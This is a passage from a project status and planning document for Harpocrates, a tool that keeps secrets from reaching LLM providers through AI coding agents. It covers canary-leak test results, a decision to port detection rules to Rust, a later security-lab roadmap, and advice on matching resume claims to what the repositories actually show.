| Integration | SEC-07, FR-GATE-04, FR-PROOF-04, FR-NAME-05, TEST-03, FR-CORE-05 | 11 passed, 2 failed: both FR-NAME-05 tests, because this container's `/etc/gitconfig` skips LFS downloads, so the `pre-commit try-repo` clone holds the model's pointer file and the SHA-256 check refuses it (SEC-07 working as meant). With smudging on for the run: 2 passed, so 13 of 13. Noted in `docs/testing.md` |
| Counter | FR-PROOF-04 | 80 of 80 planted canaries received |
| Parser corpus through the gate, seeds 0 and 1 | FR-GATE-02, FR-PROOF-04 | 0 of 57 known-format received; 11 requests blocked; 2 MCP connector credentials passed by design; ML-only received 13 and 12 of 23 |
| Read hook with real agents, and control | FR-READ-01, FR-READ-03, FR-READ-06 | Each agent made its 3 tool calls; 0 of 22 known-format received. Control: 10 of 22 known-format and 6 of 8 ML-only received |
| Gate, g3 | FR-GATE-03, SEC-10 | Both scanner-error sessions blocked with HARPO-BLOCK-SCAN-ERROR, 0 requests reached the mock; with a mismatched install record, 3 of 3 tool results carried the SEC-10 refusal |
| Gate, g4 | FR-GATE-01, FR-GATE-04, FR-GATE-05 | Gate only: 0 received, 3 of 3 tool results redacted (9 and 10 placeholders). Gate and hook: 0 received, the hook refused the reads. Gate off: 5 known-format and 3 ML-only received per agent |
| Gate, g5 | FR-GATE-06, FR-GATE-07, FR-GATE-11 | 5 gated sessions, 0 known-format received, 0 inside base64. The Codex MCP image request was blocked with HARPO-BLOCK-ENCODED-SECRET (its control leaked 1, and 3 inside base64). Codex with a fake ChatGPT login: 0 (control: 5). The media controls and the Claude MCP control leaked nothing either, so those paths show no effect of the gate |
| Guard, seeds 0 and 7 | FR-INSTALL-01, -02, -08, FR-UX-01, FR-LOG-01, FR-PROOF-01, -02, SEC-01 | Both seeds, both agents: routed by `harpo guard up` alone, 0 known-format received, doctor passed, 4 proof entries matching the 4 requests the mock received, chain verified, 7 or 8 `secret_redacted` and 1 `request_blocked`. After `guard down`: files byte-identical, 5 known-format received. SEC-01 sweep: 0 canary values in any Harpo file or temp file |
| Real home | SEC-08 | Unchanged in every agent run |

**Engine parity (found in this pass, fixed Oct 28).** On this repository, with the commit-layer model, the Python engine reports 159 findings and the Rust engine 140, in 7.3 s against 0.6 s. All 19 differences are findings only Python makes: 17 ML candidates and 2 Telegram bot tokens. The Rust core has 17 of the 18 regex signatures (no `TELEGRAM_BOT_TOKEN`) and none of the Python detector's Phase 2d structured candidates (connection strings, password literals, URL tokens, bearer and header values, among others). `test_fr_core_01_rust_parity.py` compares the engines on the seven files in `docs/samples/samples`, which none of those rules touch, so it passes. In auto mode, `harpo scan` uses the Rust binary whenever one is built in the checkout or on the PATH; a pip install has none and always runs Python.

- **Decided by Josh, Oct 28, 2026: the Rust core runs every regex and entropy rule, and only ML stays in Python.** Done the same day (`60bc6f4`): `core/src/candidates.rs` holds the Phase 2b to 2d rules with the Python pattern text, the missing Telegram signature is added, the Slack token length and the legacy OpenAI exclusion now match Python, and Rust sends the variable name and the 512 characters around each token so Python's classifier gets the same inputs (protocol 3). The regex crate has no lookarounds; each one-character lookbehind or lookahead is checked around the match instead, which equals Python's backtracking for these patterns. After the port, on this repository: 2,236 raw candidates from each engine, ML-only ones included, every field equal (entropy and confidence within 1e-9); 619 findings without the model and 159 with it, on both. Rust 0.8 s against Python 5.0 s without the model, 1.9 s against 6.5 s with it (the model runs in Python either way). `test_fr_core_01_rust_parity.py` now checks that `harpocrates-rust-scanner patterns` lists the Python patterns in the Python order, that a fixture with a line for every rule and its edges gives the same raw candidates, and the same for the README samples. Both checks fail when one bound of one Python pattern is changed (mutation check). **Decided by Josh, Oct 28: the in-process layers use the Rust rules through a PyO3 binding.** Done the same day (`8317c5a`): the crate builds the extension module `harpo_native` (feature `python`, `pip install ./core`, abi3 for Python 3.10+), and `detector._scan_line`, which the read tool, the hook, the gate, the MCP tools and the Python scan engine all reach, calls it when it is installed, `HARPO_NATIVE` is not 0, and its protocol and pattern list equal Python's; otherwise the Python rules run. In process on this repository: the same 2,236 raw candidates, 1.4 s against 4.9 s. Gate scan latency, replaying the 20 recorded sessions of the Oct 21 gate suites on the 4-core container: first turns 46.5 ms p95 added with the Rust rules against 65.9 ms with the Python rules, follow-ups 11.6 against 11.1 ms (the span cache does most of that work). The module is not in the PyPI package yet: publishing it needs a wheel per platform. Known difference: outside ASCII, Rust uses its nearest character tests for Python's `isdigit`, `isalpha` and `isupper`, which can disagree on unusual characters.

**Against the goals** (Goals and non-goals, above):

| Goal | Where it stands on Oct 28 |
| --- | --- |
| 1. Zero known-format canaries reach the provider, across every read path | Met in the test harness, against the mock provider: 0 received through the read hook, the gate (scripted reads, MCP images, the ChatGPT-login route) and `harpo guard up`. Not shown against a real provider. ML-only canaries do get through the gate (12 to 13 of 23 in the parser corpus) |
| 2. Task resolve rate within 3 points with Guard on | Not measured (M3) |
| 3. Under 50 ms p95 added per request | Follow-up turns 12.2 ms p95, first turns 347 ms p95, measured locally on Oct 20 to 21; not in CI |
| 4. Fail closed | Shown end to end for a scanner error (g3) and in unit tests for an unusable or damaged audit log, unknown encodings and parse errors |
| 5. Never store or log a plaintext secret | SEC-01 sweep: 0 canary values in every Harpo file and temp file, in both guard runs |
| 6. Full protection for Claude Code and Codex; setup under 5 minutes | Both routed and protected in the harness; Codex needs the one-time `/hooks` trust; setup time by someone else not measured (FR-READ-03) |
| 7. Publish a reproducible benchmark and an evasion suite | Detector benchmark published (README); evasion and prompt-injection suites not built (M3) |

**Decided by Josh on Oct 21, 2026.** FR-GATE-02's acceptance points at the Gate design decisions, `docs/gate-transport.md` and the corpus tests. FR-READ-04 is reworded to the deny that shipped. The code stays in `cli/Harpocrates/`. The FR-CLEAN rows are confirmed. `zstandard` is a runtime dependency before Python 3.14 (gate decision 16). This branch gets CI through a draft pull request. The block message keeps its pointer to `harpo doctor`, which ships with G7. NFR-01 has a separate first-turn target. The parser corpus becomes the only source of each case's expectation. TEST-03 and TEST-04 are approved; TEST-02 is not.

No "Josh writes" item is in R0 to M2, so none was started.

**After v1:** the v1.1 retrained detector is dropped with the rest of the ML work (Josh, Oct 28, 2026). v1.2 (February 2027) ships repo preflight. The lab repo starts after that. Each release must leave the repo finished and demoable.

**Schedule risk and cut order:** scope grew after these dates were set (installer adapters, `harpo doctor`, signed-block handling, competitor comparison). If M2 or M3 slips, cut in this order: (1) OpenCode and Copilot adapters, to v1.1; (2) competitor comparison, to v1.1; (3) OCR for images, which stays pass-with-warning; (4) the full SWE-bench run, falling back to the 10-task subset with the result labeled preliminary. Never cut fail closed, `harpo doctor`, the no-plaintext-logging rule, or the canary leakage test.

**Phase 2: harpocrates-lab repo with ThreatChain (Mar to May 2027)**

Turn ThreatChain from an LLM wrapper into an investigation system over real telemetry. This combines the Mini-EDR and ThreatChain items from the roadmap into one repo: the separate harpocrates-lab repo, not the product.

- Lab: a Windows VM with Sysmon, a Linux VM with auditd, and Zeek. Store events in DuckDB or Elastic. No Kafka unless you hit a real throughput need.
- Attacks: Atomic Red Team runs, labeled by ATT&CK technique, inside the lab only.
- Detection: 15 to 25 Sigma rules plus one ML detector reused from your CIC-IDS2017 work.
- Investigation: ThreatChain maps correlated alerts to ATT&CK, cites the log events, and proposes actions behind human approval.
- Red team: prompt injection planted in command lines, filenames, and DNS queries, with before and after numbers.
- Link to Guard: Guard's audit log becomes one telemetry source, so a leaked-secret event can trigger an investigation.

**Phase 3: Cloud detection (summer 2027, optional)**

Use a separate AWS sandbox account with budget alerts and Stratus Red Team or CloudGoat for attack emulation. This is how you legitimately earn the IAM and S3 experience your resume currently lists.

**REFLEX (parallel, research only)**

Cost isn't the blocker it seems. A 4B-parameter model quantized to 4 bits needs roughly 3 to 4 GB of memory for its weights. That runs on a consumer GPU, an Apple Silicon Mac, or a rented cloud GPU billed by the hour. You don't need a DGX Spark. Use the lab repo as REFLEX's cyber range, so experiments run on real telemetry instead of synthetic transcripts.

**ServiceNow ticket project (do this now)**

Before it launches, record a baseline: tickets per release, duplicate rate, and Service Desk time per ticket. After launch, track duplicates caught, false merges, and human overrides. Real production metrics from your job will outweigh any portfolio number. If ITS handles security findings, ask whether the same deduplication could apply to them.

## Resume and repo alignment

Fix these before applying widely. Security interviewers verify claims, and a mismatch between resume and repo costs more than a modest bullet ever gains.

| Resume claim | What's actually true | Fix |
| --- | --- | --- |
| Harpocrates: Rust core, ONNX, MCP server "shipped" | Built, but not on the main branch | Merge to main in M0. Until then, a recruiter clicking your GitHub sees a Python-only project. |
| Harpocrates: "adopted by 3 developer teams" | Unverified here | Be ready to name the teams and how they used it. If it was informal, say "used by." |
| ThreatChain: end-to-end Splunk investigation, approval-gated LangGraph, 189-test suite | You describe it as a simple LLM wrapper that maps attacks to ATT&CK | Rewrite the bullet to match the repo today, or do the lab work first. The repo also needs to be findable under the name on your resume. |
| ThreatChain: 1.00 mean reciprocal rank | A perfect score | Expect scrutiny. A perfect MRR usually means the test set is too small or too easy. Report the set size, or add harder queries and report the real number. |
| Skills: AWS S3 and IAM | No S3 experience; used IAM but never configured it | Remove both until Phase 3, or reword to "IAM (consumer)." Keep Lambda, EKS, and Secrets Manager, which are real. |

What's already strong and should stay: production EKS and Lambda work, 82 stored procedures with zero defects, leading a 3-person team, Security+, and the VA anomaly-detection work, which is directly relevant to detection engineering.

## Interview readiness and open questions

By M3 you should be able to explain each of these without notes:

- Why Shannon entropy alone produces false positives, and what the ML stage adds
- What complete mediation means, and why Guard needs the egress gate
- How an HTTP request reaches the LLM API: DNS, TCP, TLS handshake, and where Guard sits
- Why fail closed, and what it costs in usability
- Why keyed hashes instead of plain hashes in logs
- How prompt injection works, and why tool output is untrusted input
- What your evasion suite found that you haven't fixed yet, and how your results compare with RedactProxy and claude-code-redact

Keep 20 to 30% of your weekly time on coding-interview practice and fundamentals: Windows processes, Linux permissions, TCP/IP, DNS, TLS, and authentication (OAuth, SAML, Kerberos). Project depth gets you the interview; fundamentals pass it.

**Open questions**

- [x] Confirm how Codex can deny built-in reads per path (hooks or sandbox rules). Answered in M1: a sandbox permission profile plus a `PreToolUse` hook on `Bash` (`docs/setup.md`, section 4)
- [ ] Whether Codex's ChatGPT sign-in honors a custom base URL. Partly answered: the gate has a ChatGPT-login upstream (FR-GATE-06), and Codex with a fake ChatGPT login works through it against the mock provider (g5, Oct 21). The live check against chatgpt.com with a real login is still open
- [x] Choose the proxy's request-parsing strategy for each provider's API format. Decided Oct 19, 2026 for Anthropic Messages and OpenAI Responses (Gate design decisions, under Requirements); OpenAI Chat Completions waits for the Copilot adapter
- [x] Decide whether harpo-read is Python (faster to build) or Rust (one language with the core). Built in Python (M1)
- [ ] Find ThreatChain's current repo name and decide whether to rename it to match the resume
- [ ] Check what baseline ticket data the ServiceNow project can capture before launch
